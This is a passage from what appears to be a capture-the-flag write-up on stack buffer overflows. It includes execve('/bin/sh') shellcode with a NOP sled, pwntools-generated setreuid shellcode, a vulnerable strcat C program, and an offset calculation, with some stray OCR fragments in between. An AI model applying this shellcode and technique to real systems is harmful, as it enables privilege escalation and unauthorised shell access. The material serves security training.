 ```bash
run $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6)")
```
See where NOP sled string is located and beginning of shellcode:
`x/100x $rsp-200`
NOP Sled = 0x90909090
shellcode = 0x2f6e6962 (x\\62696e2f)
Let’s take any address between the NOP sled and the shellcode (e.g. **0x7fffffffe298**). Here is the final payload:


**setreuid**

Let’s use pwntools to generate a prefix to our shellcode to run SETREUID:

```bash
apt-get update  
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential  
python3 -m pip install --upgrade pip  
python3 -m pip install --upgrade 
```
pwntools


```
pwn shellcraft -f d amd64.linux.setreuid 1002 \\x31\\xff\\x66\\xbf\\xea\\x03\\x6a\\x71\\x58\\x48\\x89\\xfe\\x0f\\x05
len('\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05')  
```
14

omgyoudidthissocool!!

##### Task 9

```
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}
```
**offset**

The buffer is 154 bytes, but the string `doggo` (5 characters) is added. So we should begin to test from 154-5. Let’s start with 8 more bytes:
```bash
gdb -q buffer-overflow-2  
run $(python -c "print('A'*(154-5+8*2+4))")
```
The offset is 169 (154–5+8*2+4).
